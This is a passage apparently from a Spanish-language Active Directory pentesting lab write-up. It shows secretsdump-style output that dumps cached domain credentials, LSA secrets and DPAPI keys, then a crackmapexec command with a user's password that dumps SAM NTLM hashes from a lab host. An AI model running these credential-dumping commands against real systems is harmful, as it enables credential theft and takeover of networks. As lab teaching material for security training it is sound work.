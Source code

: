 ```
CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\WS01$:aes256-cts-hmac-sha1-96:9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
CORP\WS01$:aes128-cts-hmac-sha1-96:73670fc7a88720c24ff4c869dc84a9c1
CORP\WS01$:des-cbc-md5:8c5bea107cc8c804
CORP\WS01$:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
[*] NL$KM 
 0000   5C B5 3B 8C D5 28 A0 C3  6A F2 57 A3 08 B6 F7 D4   \.;..(..j.W.....
 0010   E4 7D 11 84 8F 2C 98 2B  2D DD 06 7D 30 53 B4 23   .}...,.+-..}0S.#
 0020   4B 8D C7 7E 92 96 5B 48  67 29 99 50 C1 E4 27 A6   K..~..[Hg).P..'.
 0030   37 2C 9D 99 E8 FD 57 11  CC 44 47 ED 30 6F 96 00   7,....W..DG.0o..
NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

Tambien podremos utilizar `crackmapexec` que por debajo estaria utilizando el mismo modulo de `impacket` de la siguiente forma:

```shell
crackmapexec smb 192.168.5.208 -u empleado1 -p "Passw0rd2" --sam
```

Info:

```
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SSH protocol database
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB         192.168.5.208   445    WS01             [+] corp.local\empleado1:Passw0rd2 (Pwn3d!)
SMB         192.168.5.208   445    WS01             [+] Dumping SAM hashes
SMB         192.168.5.208   445    WS01             Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
SMB         192.168.5.208   445    WS01             santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
```